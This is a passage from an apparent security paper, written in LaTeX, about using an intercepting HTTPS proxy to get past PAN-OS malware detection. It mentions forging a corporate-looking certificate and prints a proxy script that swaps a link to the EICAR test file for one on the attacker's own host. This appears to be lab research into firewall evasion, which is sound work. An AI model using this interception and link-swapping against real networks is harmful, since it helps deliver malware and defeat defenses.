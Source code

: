 As mentioned earlier in the paper, the certificate can be forged meticulously to look like a big corporation's one.

\newpage

\subsubsection{Developing the Script}

Through the \verb|https.proxy.script| option, it is possible to develop a small javascript program that interacts with various proxy functions\cite{proxy-functions}:

\begin{verbatim}
 // called when the script is loaded
function onLoad() {

}

// called when the request is received by the proxy
// and before it is sent to the real server.
function onRequest(req, res) {

}

// called when the request is sent to the real server
// and a response is received
function onResponse(req, res) {

}

// called every time an unknown session command is typed,
// proxy modules can optionally handle custom commands this way:
function onCommand(cmd) {
    if( cmd == "test" ) {
        /*
         * Custom session command logic here.
         */

        // tell the session we handled this command
        return true
    }
}
\end{verbatim}

\newpage

In this case in order to bypass the Malware Detection in ``PanOS'', a small script was created that replaces the url of the malware on the external server with the url of the same malware but located on the attacker's machine.

\begin{verbatim}
function onResponse(req, res){
        var body = res.ReadBody();
        //Checks if there's a link to eicar.com
        if ( body.indexOf('<a href="./eicar.com">') != -1){
            res.Body = body.replace('<a href="./eicar.com">',
            '<a href="http://192.168.3.10/eicar2.com">');
        }
}
\end{verbatim}


